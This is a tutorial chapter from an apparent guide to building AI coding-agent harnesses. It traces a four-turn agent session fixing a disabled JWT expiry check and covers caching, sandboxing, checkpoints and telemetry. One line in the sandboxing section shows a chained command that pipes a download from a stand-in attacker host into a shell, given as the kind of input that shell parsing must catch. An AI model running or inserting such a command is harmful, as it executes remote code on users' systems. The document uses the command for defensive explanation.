

> **Module 7: Reliability & Evaluation (Capstone)** | Prerequisites: Chapters 00–40 | Reading Time: ~22 min
>
> [← 40. Agent Evaluation Harnesses & Benchmarks](./40-agent-evaluation-harnesses-and-benchmarks.md) | [Table of Contents](../README.md) | [Plain-English Glossary →](../GLOSSARY.md)

# 41. Putting It All Together: End-to-End Technical Walk-Through

## 1. Revisiting the Login Bug — Now With X-Ray Vision

In **[00. Start Here](../00-foundations/00-start-here-what-is-an-agent-harness.md)**, you walked through a simple bug fix in plain English:

> *"The login test is failing after yesterday's refactor. Please find the bug and fix it."*

Now that you have studied every individual layer (from raw streaming loops and KV prompt caching to kernel sandboxes, lifecycle hooks, Git checkpoints, and OpenTelemetry spans) we can put X-ray glasses on and trace **that exact 4-turn session** millisecond-by-millisecond from keystroke to verified pass.

For concreteness, suppose the user runs our harness inside a Python API repository (`acme-auth/`) with three relevant files:
- `tests/test_auth.py`: integration test verifying expired JWTs return HTTP `401`.
- `src/auth.py`: login handler calling `verify_token()`.
- `src/tokens.py`: JWT verification helper refactored yesterday, where someone accidentally left `options={"verify_exp": False}` enabled during local debugging.

---

## 2. The Full 4-Turn Execution Sequence

Every interaction below maps that single user request across **Phase 0 (Boot & Context Assembly)** and **Turns 1–4** of the execution loop:



Notice the overarching principle: **every deterministic job** (security enforcement, log truncation, formatting, undo snapshots, billing metrics) happens in harness code outside the model. The LLM spends its tokens exclusively on reasoning and code synthesis.

---

## 3. Phase 0: Session Boot, Config Discovery & Cache-Stable Context Assembly

Before the harness opens a single connection to an LLM provider, seven subsystems execute in strict deterministic order:

1. **Client-Server Ingress ([Ch. 34](../06-extensibility-and-interfaces/34-tui-cli-event-rendering.md), [Ch. 35](../06-extensibility-and-interfaces/35-client-server-protocols-json-rpc-acp-daemon-architecture.md)):**
   Whether the developer typed the prompt into a synchronized terminal UI or triggered it from JetBrains / Zed / VS Code over JSON-RPC (**Agent Client Protocol / ACP**), the thin client sends a `session/prompt` RPC frame to the long-lived headless harness daemon. Because the UI and runtime are decoupled, resizing panes or reconnecting over SSH never kills running child processes.
2. **Layered Config & Plugin Trust Gate ([Ch. 33](../06-extensibility-and-interfaces/33-plugin-and-configuration-discovery.md)):**
   The config resolver merges settings from broadest to narrowest while logging provenance on every key:
   - Tier 1: Enterprise / MDM policy (`/etc/myagent/policy.json`)
   - Tier 2: Global user config (`~/.myagent/settings.json`)
   - Tier 3: Repository config (`acme-auth/.myagent/settings.json`)
   - Tier 4: Local gitignored overrides (`acme-auth/.myagent/settings.local.json`)
   Before loading any hook script or stdio MCP server declared inside the repo config, the harness hashes the file contents (`SHA-256`) and verifies user approval in its local trust store: blocking malicious cloned repositories from achieving startup code execution.
3. **`SessionStart` Lifecycle Hook ([Ch. 32](../06-extensibility-and-interfaces/32-lifecycle-hooks-and-interceptors.md)):**
   An approved `SessionStart` hook runs once under a tight timeout (e.g. `5s`), detecting the active Git branch (`fix/auth-refactor`) and Python interpreter (`.venv/bin/python`). Crucially, dynamic values are attached cleanly near the **bottom user-context turn**, never mutated into the cached system prefix.
4. **Hierarchical Instruction Discovery ([Ch. 07](../02-context-and-memory/07-system-prompt-assembly-and-instruction-hierarchy.md)):**
   Walking from the repository root down to the current working directory (`acme-auth/`), the harness loads `AGENTS.md` / `CLAUDE.md` rules (e.g., *"Run Python tests via `.venv/bin/pytest`; use parameterized fixtures; never disable signature checks"*). Higher-precedence enterprise/system guardrails are framed explicitly so repo text cannot override security rules.
5. **Tool Schema Ordering & Progressive Disclosure ([Ch. 03](../01-core-loop-and-execution/03-tool-schema-design-and-structured-outputs.md), [Ch. 12](../02-context-and-memory/12-progressive-disclosure-and-on-demand-skills.md), [Ch. 19](../03-tools-and-workspace-interaction/19-model-context-protocol-mcp-client-architecture.md)):**
   Even if 4 MCP servers and 20 skills are configured globally, the harness avoids upfront schema bloat. It registers **10 core built-in tools** (`read_file`, `edit_file`, `write_file`, `ripgrep`, `glob`, `run_shell`, `lsp_definition`, `lsp_diagnostics`, `search_tools`, `load_skill`) sorted canonically by tool name, plus a tiny Tier-0 skill summary index (`~250` tokens).
6. **KV Prefix Locking ([Ch. 08](../02-context-and-memory/08-prompt-caching-and-prefix-stability.md)):**
   The top prefix `[Tool Schemas] + [Base System Prompt] + [AGENTS.md Rules]` is serialized deterministically with **zero volatile timestamps, random UUIDs, or unstable map iteration order**. Even though Turn 1 pays a cache-write premium (`1.25×` or `1.0×` depending on provider), Turns 2–4 will match this exact prefix byte-for-byte at a **90% read discount (`0.1×`)**.
7. **Token Budget, Router & State Transition ([Ch. 06](../01-core-loop-and-execution/06-session-and-turn-state-machines.md), [Ch. 09](../02-context-and-memory/09-context-window-budgeting.md), [Ch. 39](../07-reliability-and-evaluation/39-model-routing-and-rate-limit-fallbacks.md)):**
   On a `200,000`-token model, the harness enforces an invariant reserve:

```text
[ System ~3.1k ] [ Tools ~4.8k ] [ Pinned Rules & Skills ~6.2k ] [ Msg 1 ~0.1k ]   ... [ 40k Reserved Headroom ]
<-------------------------------- 14,200 used (8.9% of 160k usable) ------------>   <--- Output + Thinking --->
```

   The model router binds the primary frontier coding model (keeping a secondary provider/tier ready for `429`/`529` failover), opens an OpenTelemetry root span `invoke_agent`, and transitions the session state machine from `idle` → `streaming`.

### Concrete Assembled Turn-1 API Payload

Notice how Phase 0 orders fields strictly from **most static** to **most dynamic** so prefix caching locks on the entire top section:

```json
{
  "model": "primary-coding-model",
  "max_tokens": 40000,
  "stream": true,
  "tools": [
    {"name": "edit_file", "description": "...", "input_schema": {"...": "..."}},
    {"name": "glob", "description": "...", "input_schema": {"...": "..."}},
    {"name": "read_file", "description": "...", "input_schema": {"...": "..."}},
    {"name": "ripgrep", "description": "...", "input_schema": {"...": "..."}},
    {"name": "run_shell", "description": "...", "input_schema": {"...": "..."}}
  ],
  "system": [
    {
      "type": "text",
      "text": "<harness_instructions>...<repo_rules src='AGENTS.md'>..."
    }
  ],
  "messages": [
    {
      "role": "user",
      "content": "<session_env branch='fix/auth-refactor' python='.venv/bin/python'/>\nThe login test is failing after yesterday's refactor. Please find the bug and fix it."
    }
  ]
}
```

Because `tools` and `system` never change mid-session, every subsequent append (`assistant` → `tool_result` → `assistant` → ...) reuses the exact same KV cache prefix cleanly.

---

## 4. Turn 1: Streaming SSE Parsing & Parallel Read-Only Exploration

The harness sends the Turn 1 payload over HTTPS with `stream: true` and `Accept: text/event-stream` ([Ch. 01](../01-core-loop-and-execution/01-agent-tool-use-loop.md), [Ch. 02](../01-core-loop-and-execution/02-streaming-and-event-parsing.md)).

### Incremental SSE Demultiplexing

Instead of waiting several seconds for the entire completion, a UTF-8 stream decoder buffers until `\n\n` frames and routes events by content-block `index`:

```text
event: content_block_start   -> index=0, type="thinking"
event: content_block_delta   -> "Login test failed after refactor. Need auth handler and test assertions."
event: content_block_stop    -> index=0 (stores thinking text + cryptographic signature)
event: content_block_start   -> index=1, type="tool_use", id="call_01", name="ripgrep"
event: content_block_delta   -> {"partial_json": "{\"pattern\": \"verify_token\""}
event: content_block_delta   -> {"partial_json": ", \"path\": \"src\"}"}
event: content_block_stop    -> index=1 (validates JSON arguments -> enqueue tool call)
event: content_block_start   -> index=2, type="tool_use", id="call_02", name="read_file"
event: content_block_delta   -> {"partial_json": "{\"path\": \"tests/test_auth.py\", \"start_line\": 1, \"end_line\": 80}"}
event: message_delta         -> stop_reason="tool_use"
```

Once `stop_reason == "tool_use"` arrives, the state machine transitions `streaming` → `executing_tools`.

### Concurrent Read-Only Execution & Provenance Tracking

Inspecting the two queued tool calls, the dispatcher checks their safety metadata ([Ch. 04](../01-core-loop-and-execution/04-parallel-tool-calling.md)):
- `ripgrep` → `read_only=True`, `concurrency_safe=True`
- `read_file` → `read_only=True`, `concurrency_safe=True`

After both pass `PreToolUse` read-path validation ([Ch. 22](../04-sandboxing-and-security/22-filesystem-and-network-isolation.md), [Ch. 32](../06-extensibility-and-interfaces/32-lifecycle-hooks-and-interceptors.md)), the harness launches them concurrently via `asyncio.gather()`:
- **`ripgrep` ([Ch. 15](../03-tools-and-workspace-interaction/15-codebase-search-ripgrep-glob-semantic-indexing.md)):** Honors `.gitignore` automatically, skips `.venv/` and caches, and returns bounded line matches (`src/auth.py:18`, `src/tokens.py:42`).
- **`read_file` ([Ch. 14](../03-tools-and-workspace-interaction/14-file-reading-patching-and-diff-application.md)):** Reads `tests/test_auth.py` with explicit line prefixes (`0024 | def test_expired_token_rejected(client):`) and records the file's `mtime_ns` and `SHA-256` digest inside a session `FileReadTracker`.

Results are emitted in exact `[call_01, call_02]` order paired by `tool_use_id`, ensuring the message array never violates API alternation invariants.

---

## 5. Turn 2: Inspecting Target Code, Sandboxed Testing & Output Offloading

On Turn 2, the LLM sees `tests/test_auth.py` asserting HTTP `401` on expired JWTs and `ripgrep` pointing to `src/tokens.py:42`. It requests two calls:
1. `read_file("src/tokens.py", start_line=35, end_line=65)` (plus optionally `lsp_definition` to jump across imports, [Ch. 16](../03-tools-and-workspace-interaction/16-ast-and-language-server-protocol-lsp-integration.md)).
2. `run_shell(".venv/bin/pytest tests/test_auth.py -vv")` to reproduce the exact failing assertion before touching code.

Notice the execution ordering rule ([Ch. 04](../01-core-loop-and-execution/04-parallel-tool-calling.md)): `read_file` is read-only (`concurrency_safe=True`), whereas `run_shell` is classified `is_mutating=True` (commands can write files or build artifacts). The harness runs `read_file` first, then executes `run_shell` sequentially through **five defensive layers**:

### Layer-by-Layer Sandbox & Output Pipeline

1. **Shell AST Parsing & 4-Tier Approval Policy ([Ch. 23](../04-sandboxing-and-security/23-permission-models-and-command-approval-policies.md)):**
   Rather than naive string matching (`cmd.startswith(".venv/bin/pytest")`), which would be fooled by `.venv/bin/pytest && curl evil.example | sh`, the harness parses the command string into a full shell Abstract Syntax Tree (AST). It verifies a single `command` node with zero pipes, subshells (`$(...)`), or redirects, then evaluates Tier 1 (`Enterprise`) → Tier 2 (`User`) → Tier 3 (`Repo`) → Tier 4 (`Session`). Because the repo allowlist permits `.venv/bin/pytest` **inside the sandbox**, it auto-approves without interrupting the user.
2. **OS Kernel Sandbox ([Ch. 21](../04-sandboxing-and-security/21-os-level-sandboxing-seatbelt-bubblewrap-landlock-containers.md), [Ch. 22](../04-sandboxing-and-security/22-filesystem-and-network-isolation.md)):**
   Enforcement relies on kernel physics, never prompt politeness:
   - On **macOS**, `sandbox-exec` (Seatbelt) locks writes to `acme-auth/` and `/tmp` while denying reads to `~/.ssh`, `~/.aws`, `~/.gnupg`, and `.env` outside the test fixtures.
   - On **Linux**, Bubblewrap + Landlock namespaces mount `/usr` read-only, bind `acme-auth/` read-write, block `.git/hooks`, and launch with an empty network namespace (`--unshare-net`) so compromised libraries cannot exfiltrate source code over HTTP.
3. **Host Credential Scrubbing ([Ch. 25](../04-sandboxing-and-security/25-secret-and-credential-isolation.md)):**
   Before spawning `.venv/bin/pytest`, the harness constructs a minimal allowlisted `env` dict: explicitly stripping `ANTHROPIC_API_KEY`, `OPENAI_API_KEY`, `GITHUB_TOKEN`, and AWS credentials, while setting `CI=true`, `PYTHONDONTWRITEBYTECODE=1`, and `GIT_TERMINAL_PROMPT=0` so tools never block on interactive prompts.
4. **Process-Group Management ([Ch. 17](../03-tools-and-workspace-interaction/17-shell-and-pty-session-management.md), [Ch. 18](../03-tools-and-workspace-interaction/18-background-processes-and-async-notifications.md)):**
   The child executes with `stdin=DEVNULL` in its own POSIX process group (`start_new_session=True`). If a runaway test fixture ever hits the `15s` timeout or the user hits cancel, `os.killpg(pgid, SIGTERM)` reaps the entire descendant tree, never leaving orphaned test workers behind. Here, `pytest` exits cleanly in `1.1s` (`returncode=1`).
5. **ANSI Stripping, Artifact Offloading & Injection Framing ([Ch. 11](../02-context-and-memory/11-tool-output-truncation-and-artifact-offloading.md), [Ch. 24](../04-sandboxing-and-security/24-prompt-injection-defenses-and-trust-boundaries.md)):**
   Suppose verbose SQLAlchemy debug logging generated `4,200` lines (`~65,000` tokens) before the assertion failed. Dumping 65k tokens into the model's context would wreck signal-to-noise and inflate every future turn's cost. Instead, the harness:
   - Strips ANSI terminal escape codes and collapses identical repeated warnings.
   - Writes the full raw log to `.agent/artifacts/tool_call_04.log` outside LLM memory.
   - Passes the excerpt through high-entropy / API-prefix secret redaction.
   - Wraps only the **20-line head + 50-line failure tail** (`~620` tokens) inside explicit untrusted-data XML/delimiters so nothing inside stderr can hijack control flow:

```text
<tool_output tool="run_shell" trust="untrusted_workspace_output" exit_code="1">
[Head: lines 1–12 of 4,200]
============================= test session starts ==============================
tests/test_auth.py::test_valid_login PASSED
tests/test_auth.py::test_expired_token_rejected FAILED

... [4,148 middle lines truncated (64.4k tokens saved) -> full log: .agent/artifacts/tool_call_04.log] ...

[Tail: lines 4,151–4,200]
>       assert res.status_code == 401
E       AssertionError: assert 200 == 401
</tool_output>
```

---

## 6. Turn 3: Checkpointing, Surgical Patching, Hooks & Live LSP Feedback

With `src/tokens.py` (lines 35–65) and the `pytest` assertion (`200 == 401`) both in context, the model isolates the regression at line 48: someone left `options={"verify_exp": False}` in `jwt.decode()`. It emits a surgical `edit_file` call:

```json
{
  "name": "edit_file",
  "input": {
    "path": "src/tokens.py",
    "old_string": "    payload = jwt.decode(\n        raw_jwt,\n        PUBLIC_KEY,\n        algorithms=[\"RS256\"],\n        options={\"verify_exp\": False},\n    )",
    "new_string": "    payload = jwt.decode(\n        raw_jwt,\n        PUBLIC_KEY,\n        algorithms=[\"RS256\"],\n    )"
  }
}
```

Because `edit_file` mutates workspace files on disk, four reliability safeguards run automatically:

1. **Shadow Git Checkpoint Snapshot ([Ch. 36](../07-reliability-and-evaluation/36-checkpointing-snapshots-and-rollback.md)):**
   Before opening `src/tokens.py` for writing, the harness captures a lightweight filesystem snapshot using a dedicated shadow repository (`GIT_DIR=~/.myagent/checkpoints/acme-auth/.git`, `GIT_WORK_TREE=/path/to/acme-auth`), explicitly excluding the project's `.git/` folder so user branches, staging indexes, and reflogs remain untouched. It writes tree SHA `9f41a8c` and binds it to transcript event `e5`.
2. **Stale-Read Verification & Atomic Write ([Ch. 14](../03-tools-and-workspace-interaction/14-file-reading-patching-and-diff-application.md)):**
   The tool verifies `src/tokens.py` exists in `FileReadTracker` and that its current on-disk `SHA-256` still matches what the model read in Turn 2 (preventing silent overwrites if the developer edited the file concurrently). It confirms `old_string` occurs **strictly once**, preserves line endings (`\n`) and encoding (`utf-8`), writes to a sibling temp file `.tokens.py.tmp`, and commits via atomic `os.replace()`.
3. **`PostToolUse` Formatter Hook ([Ch. 32](../06-extensibility-and-interfaces/32-lifecycle-hooks-and-interceptors.md)):**
   A registered `PostToolUse` matcher (`edit_file|write_file`) automatically runs `.venv/bin/ruff format src/tokens.py` deterministically: eliminating formatting round-trips from the LLM loop.
4. **Pull-Based LSP Diagnostics Feedback ([Ch. 16](../03-tools-and-workspace-interaction/16-ast-and-language-server-protocol-lsp-integration.md)):**
   Immediately after the hook finishes, the harness notifies the running Python Language Server (`pyright`) over JSON-RPC with `textDocument/didChange` and pulls `textDocument/diagnostic`:

```json
{"jsonrpc": "2.0", "id": 14, "method": "textDocument/diagnostic", "params": {"textDocument": {"uri": "file:///path/to/acme-auth/src/tokens.py"}}}
```

   Receiving `"kind": "full", "items": []` within ~`75ms`, the harness appends `"LSP diagnostics (src/tokens.py): 0 errors"` directly onto the `edit_file` tool result, giving the model instant compiler-grade confirmation before it even re-runs `pytest`.

### What Happens When Errors Strike Along the Way?

The same loop handles faults gracefully without losing state or burning budgets:
- **Upstream `429` Rate Limit / `529` Overloaded ([Ch. 05](../01-core-loop-and-execution/05-error-recovery-retries-and-infinite-loop-detection.md), [Ch. 39](../07-reliability-and-evaluation/39-model-routing-and-rate-limit-fallbacks.md)):** Exponential backoff with full jitter retries the exact cache-locked prefix first; if the outage persists, cache-sticky failover switches seamlessly to a backup endpoint while stripping incompatible thinking signatures.
- **Ambiguous Patch or Repeated Failure ([Ch. 05](../01-core-loop-and-execution/05-error-recovery-retries-and-infinite-loop-detection.md), [Ch. 14](../03-tools-and-workspace-interaction/14-file-reading-patching-and-diff-application.md)):** If `old_string` fails to match uniquely, `edit_file` returns surrounding file context instead of failing blindly. If an action hashes to 3 identical failures in a row, the doom-loop detector injects a harness intervention forcing a change in strategy.
- **Mid-Loop User Steering or `Ctrl+C` ([Ch. 01](../01-core-loop-and-execution/01-agent-tool-use-loop.md), [Ch. 06](../01-core-loop-and-execution/06-session-and-turn-state-machines.md)):** Any user follow-up typed during tool execution queues into `steering_queue` and appends cleanly after pending `tool_result` blocks, while an abort interrupt kills child process groups (`-pgid`) and emits synthetic cancelled tool results so message alternation stays valid.

---

## 7. Turn 4: Verification, Termination, Transcript Replay & Telemetry

On Turn 4, the model executes `.venv/bin/pytest tests/test_auth.py` one last time inside the OS sandbox. All **12 tests pass in `0.84s`** (`returncode=0`). Having verified its change against both LSP diagnostics and the real test suite:

1. **Graceful Termination ([Ch. 01](../01-core-loop-and-execution/01-agent-tool-use-loop.md), [Ch. 06](../01-core-loop-and-execution/06-session-and-turn-state-machines.md)):**
   The model streams a crisp summary citing the root cause (`verify_exp=False` in `src/tokens.py:48`), the surgical diff, and `12 passed`, ending with `stop_reason: "end_turn"`. The session state machine transitions `streaming` → `idle` and notifies connected CLI/IDE clients.
2. **Append-Only JSONL Transcript ([Ch. 37](../07-reliability-and-evaluation/37-transcript-logging-and-deterministic-replay.md)):**
   Every turn, secret-redacted and linked via `uuid` / `parent_uuid` for branching `/rewind` and offline **VCR replay**, now sits on disk in `~/.myagent/sessions/sess_9b2f.jsonl`:

```json
{"uuid": "e1", "parent_uuid": null, "role": "user", "text": "The login test is failing after yesterday's refactor..."}
{"uuid": "e2", "parent_uuid": "e1", "role": "assistant", "tool_calls": ["call_01:ripgrep", "call_02:read_file"], "usage": {"in": 14200, "cache_write": 13900, "out": 145}}
{"uuid": "e4", "parent_uuid": "e3", "role": "assistant", "tool_calls": ["call_03:read_file", "call_04:run_shell(pytest)"], "artifact_offload": ".agent/artifacts/tool_call_04.log", "usage": {"in": 15300, "cache_read": 14200, "out": 110}}
{"uuid": "e6", "parent_uuid": "e5", "role": "assistant", "tool_calls": ["call_05:edit_file(src/tokens.py)"], "checkpoint_tree": "9f41a8c", "usage": {"in": 16120, "cache_read": 15300, "out": 190}}
{"uuid": "e8", "parent_uuid": "e7", "role": "assistant", "stop_reason": "end_turn", "cost_usd": 0.0071}
```

3. **Token, Cache & OpenTelemetry Cost Ledger ([Ch. 38](../07-reliability-and-evaluation/38-telemetry-tracing-and-token-cost-accounting.md)):**

| Turn | Action | Total Input | Cached Read (`0.1×`) | Fresh / Write | Output Tokens | Approx. Cost |
| :---: | :--- | ---: | ---: | ---: | ---: | :---: |
| **1** | Search + Read `tests/test_auth.py` | 14,200 | 0 (cold) | 14,200 | 145 | `$0.056` |
| **2** | Read `src/tokens.py` + Failing `pytest` (65k → 620) | 15,300 | 14,200 (`92.8%`) | 1,100 | 110 | `$0.009` |
| **3** | Checkpoint + Edit + Formatter + LSP | 16,120 | 15,300 (`94.9%`) | 820 | 190 | `$0.009` |
| **4** | Re-run `pytest` + Verified Summary | 16,580 | 16,120 (`97.2%`) | 460 | 165 | `$0.007` |

   OpenTelemetry spans (`invoke_agent` → `turn` → `chat` / `execute_tool`) record exact time-to-first-token (TTFT), tool latencies, and cumulative spend (`$0.081` vs. the `$2.00` session budget cap):

```text
invoke_agent ("acme-auth-session")                              11.4s   $0.081
├── hook: SessionStart (branch + .venv probe)                    0.12s
├── turn 1  (cold prefix write + ripgrep + read_file parallel)    2.65s   $0.056
│   ├── chat primary-model (TTFT 0.42s, 14.2k in / 145 out)      2.51s
│   ├── execute_tool: ripgrep (concurrent)                       0.08s
│   └── execute_tool: read_file (concurrent)                     0.04s
├── turn 2  (92.8% cache hit + AST check + sandboxed pytest)     3.42s   $0.009
│   ├── chat primary-model (15.3k in / 14.2k cached / 110 out)   2.18s
│   ├── execute_tool: read_file (src/tokens.py)                  0.03s
│   └── execute_tool: run_shell (Seatbelt + offload 65k -> 620)  1.16s
├── turn 3  (94.9% cache hit + checkpoint + edit + ruff + LSP)   2.48s   $0.009
│   ├── chat primary-model (16.1k in / 15.3k cached / 190 out)   2.05s
│   ├── checkpoint: shadow git write-tree (9f41a8c)              0.04s
│   ├── execute_tool: edit_file + PostToolUse (ruff format)      0.24s
│   └── lsp: textDocument/diagnostic (0 errors)                  0.08s
└── turn 4  (97.2% cache hit + verified pytest + end_turn)       2.73s   $0.007
    ├── execute_tool: run_shell (12 passed in 0.84s)             0.96s
    └── chat primary-model (stop_reason: end_turn)               1.74s
```

4. **Regression Capture Into Containerized Evals ([Ch. 40](../07-reliability-and-evaluation/40-agent-evaluation-harnesses-and-benchmarks.md)):**
   Finally, if teams want to make sure future prompt tweaks or compaction changes never break this class of auth fix, they freeze the pre-fix repo state as an isolated benchmark task (verified by an Oracle solution and Null baseline) and track `pass@k` and `pass^k` in CI.

---

## 8. Complete Layer-to-Chapter Trace Map

Every subsystem triggered during the 11.4-second session maps directly back to the architecture modules taught throughout this guide:

| Execution Moment | Layer & Module | What Happened in Plain Engineering Terms | Deep Dive |
| :--- | :--- | :--- | :--- |
| **Ingress** | Interfaces (Mod. 6) | Frontend sent `session/prompt` over JSON-RPC / ACP to detached daemon | [Ch. 34](../06-extensibility-and-interfaces/34-tui-cli-event-rendering.md), [Ch. 35](../06-extensibility-and-interfaces/35-client-server-protocols-json-rpc-acp-daemon-architecture.md) |
| **Config & Hook Gate** | Interfaces (Mod. 6) | Content-hashed repo trust verified; `SessionStart` hook gathered branch + `.venv` | [Ch. 32](../06-extensibility-and-interfaces/32-lifecycle-hooks-and-interceptors.md), [Ch. 33](../06-extensibility-and-interfaces/33-plugin-and-configuration-discovery.md) |
| **Prefix & Budget** | Context (Mod. 2) | Layered `AGENTS.md` + sorted tools locked KV prefix; 40k output headroom reserved | [Ch. 07](../02-context-and-memory/07-system-prompt-assembly-and-instruction-hierarchy.md)–[09](../02-context-and-memory/09-context-window-budgeting.md), [Ch. 12](../02-context-and-memory/12-progressive-disclosure-and-on-demand-skills.md) |
| **Loop & Streaming** | Core Loop (Mod. 1) | SSE frames demuxed `thinking` + `tool_use` blocks; explicit state transitions tracked | [Ch. 01](../01-core-loop-and-execution/01-agent-tool-use-loop.md)–[06](../01-core-loop-and-execution/06-session-and-turn-state-machines.md) |
| **Search, Patch & LSP** | Workspace (Mod. 3) | Parallel `ripgrep` + `read_file`; atomic edit checked stale-read hash + live `pyright` | [Ch. 14](../03-tools-and-workspace-interaction/14-file-reading-patching-and-diff-application.md)–[18](../03-tools-and-workspace-interaction/18-background-processes-and-async-notifications.md) |
| **Sandbox & Policy** | Security (Mod. 4) | Shell AST parsed; kernel sandbox disabled net + secrets; stderr delimited & scrubbed | [Ch. 21](../04-sandboxing-and-security/21-os-level-sandboxing-seatbelt-bubblewrap-landlock-containers.md)–[25](../04-sandboxing-and-security/25-secret-and-credential-isolation.md) |
| **Replay & Telemetry** | Reliability (Mod. 7) | Shadow Git tree saved; JSONL events, OTel spend trace, and CI eval capture written | [Ch. 36](../07-reliability-and-evaluation/36-checkpointing-snapshots-and-rollback.md)–[40](../07-reliability-and-evaluation/40-agent-evaluation-harnesses-and-benchmarks.md) |

---

## 9. When the Task Scales Up: Modules 2 & 5 Kick In

Because this bug touched a single file across four turns, heavy-duty memory and multi-agent layers stayed quietly idle. When a task grows into a multi-hour or cross-service migration, the same harness activates those remaining layers automatically:

| When Task Complexity Crosses… | What Activates Automatically | Chapter |
| :--- | :--- | :--- |
| **Context exceeds ~`128k` tokens** | Two-tier compaction clears old tool results first, then runs boundary-safe LLM summarization | [Ch. 10](../02-context-and-memory/10-context-compaction-and-summarization.md) |
| **Knowledge spans across sessions** | Scoped episodic/semantic memory saves project conventions cleanly without leaking secrets | [Ch. 13](../02-context-and-memory/13-short-term-vs-long-term-memory.md) |
| **Change affects rendered Web UI** | Headless Playwright/CDP reads compact Accessibility Trees and captures console/network telemetry | [Ch. 20](../03-tools-and-workspace-interaction/20-browser-automation-integration.md) |
| **Research would flood working memory** | Isolated child **Subagents** scan subsystems with fresh contexts and return only concise summaries | [Ch. 26](../05-multi-agent-and-orchestration/26-subagent-spawning-and-context-isolation.md) |
| **Multiple agents edit code simultaneously** | **Git Worktrees** or CoW clones give each writer an isolated tree sharing `.git/objects/` | [Ch. 27](../05-multi-agent-and-orchestration/27-workspace-isolation-git-worktrees-ephemeral-clones.md) |
| **Agents coordinate asynchronously** | Actor **Mailboxes** let idle parents sleep at `0` tokens and coalesce child/timer wakeups | [Ch. 28](../05-multi-agent-and-orchestration/28-inter-agent-messaging-and-reactive-wakeups.md), [Ch. 29](../05-multi-agent-and-orchestration/29-multi-agent-swarms-and-shared-coordination.md) |
| **High-risk multi-file architecture** | **Plan Mode**, live checklists, or deterministic **Programmatic Workflows** gate design before edits | [Ch. 30](../05-multi-agent-and-orchestration/30-planning-mode-and-task-tracking.md), [Ch. 31](../05-multi-agent-and-orchestration/31-programmatic-agent-workflows.md) |

---

## 10. Key Takeaways & Capstone Self-Check

- **An agent harness is a distributed systems runtime around a stateless model:** The LLM handles semantic judgment (`chat` spans); the harness provides state machines, security physics, caching discipline, deterministic verification, and observability.
- **Optimization compounds across turns:** Output offloading in Turn 2 didn't merely save tokens once; it kept KV prefix reads tight (`95%+`) and avoided premature compaction across every turn afterward.
- **Security physics enable speed:** Parsing shell ASTs and enforcing OS kernel sandboxes with scrubbed credentials lets the harness auto-approve `pytest` safely instead of nagging the developer on every test run.
- **Traceability turns magic into engineering:** Shadow Git checkpoints make local edits reversible, JSONL transcripts make bugs replayable offline, and containerized evals replace guesswork with proof.

### Quick Self-Check

1. **In Turn 2, why did offloading `4,200` lines of `pytest` stack noise to `.agent/artifacts/tool_call_04.log` save far more cost on Turns 3 and 4 than on Turn 2 alone?**
   <details>
   <summary>Show Answer</summary>
   Because LLM APIs are stateless and resend the full conversation prefix on every turn. Even with a 90% KV cache read discount (`0.1×`), keeping `65,000` tokens of raw logs in history forces every subsequent turn to re-read them, pushes the session dangerously close to the `128k` compaction trigger (risking loss of earlier code context), and increases context-rot noise across reasoning steps.
   </details>

2. **Why did Turn 1 run `ripgrep` and `read_file` concurrently, yet Turn 2 refused to parallelize `run_shell` cleanly alongside mutations and Turn 3 strictly serialized `checkpoint -> edit -> format -> LSP`?**
   <details>
   <summary>Show Answer</summary>
   `ripgrep` and `read_file` are pure read-only, commutative operations: parallelizing them lowers latency with zero race conditions. Conversely, `run_shell` and `edit_file` can mutate disk state and therefore require deterministic ordering: shadow Git checkpoint before writing, stale-read verification, atomic replace, formatter hook (`PostToolUse`), and live LSP diagnostics against the post-hook file contents.
   </details>

3. **Why did Phase 0 keep volatile values (like the current time or `SessionStart` git status) out of the static `[Tool Schemas + System Prompt + AGENTS.md]` prefix?**
   <details>
   <summary>Show Answer</summary>
   KV prefix caching works left-to-right from token 0. Changing even a single token inside the system prompt invalidates the cached KV state for every subsequent token in the prompt (including all tool schemas, repo rules, and multi-turn conversation history) turning `0.1×` cache reads into full `1.0×` recomputation across the entire context.
   </details>

4. **If the developer hits `/rewind` right after Turn 3, which two independent stores must roll back together, and why does the harness use a shadow `GIT_DIR` instead of `git reset --hard` in the user's repo?**
   <details>
   <summary>Show Answer</summary>
   Both the **workspace filesystem** (restored from tree SHA `9f41a8c`) AND the **conversation transcript branch** (rewound to `parent_uuid` before Turn 3's edit) must revert together so the LLM does not falsely assume `src/tokens.py` is still fixed. Using an isolated shadow `GIT_DIR` guarantees zero pollution of the developer's real `.git/index`, staged hunks, commits, or `git reflog`.
   </details>

---

[← 40. Agent Evaluation Harnesses & Benchmarks](./40-agent-evaluation-harnesses-and-benchmarks.md) | [Table of Contents](../README.md) | [Plain-English Glossary →](../GLOSSARY.md)
